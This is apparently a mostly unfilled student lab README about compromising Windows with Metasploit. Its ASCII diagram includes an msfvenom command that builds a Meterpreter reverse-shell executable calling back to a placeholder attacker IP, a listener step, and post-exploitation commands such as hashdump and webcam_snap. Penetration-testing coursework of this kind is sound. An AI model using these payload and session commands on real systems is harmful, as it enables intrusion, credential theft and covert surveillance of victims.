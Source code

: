 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

### Developed By

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:


## Architecture Diagram

```bash
## 🛠️ Metasploit Exploitation Architecture (Windows Target)


+----------------+                           +------------------+
|  🟢 Attacker    |      🔁 Reverse Shell      |   🔴 Victim (Win) |
|  (Kali Linux)  | <------------------------- |  Unpatched SMB   |
|  - msfconsole  |       (TCP 4444)          |  RDP, AV Bypass  |
|  - handler     |                           |                  |
+-------+--------+                           +--------+---------+
        |                                             |
        |  ⚙️ Payload generation using msfvenom        |
        |                                             |
        v                                             v
msfvenom -p windows/meterpreter/reverse_tcp  -->  User clicks payload  
         LHOST=attacker_ip LPORT=4444               or exploit triggers  
         -f exe > evil.exe  

        |
        |  🧲 Listener waits (multi/handler)
        v

+------------------------------------------------------------+
|     🧠 Meterpreter Session Established (shell access)       |
+------------------------------------------------------------+
| Commands: sysinfo | hashdump | migrate | webcam_snap | etc |
+------------------------------------------------------------+

```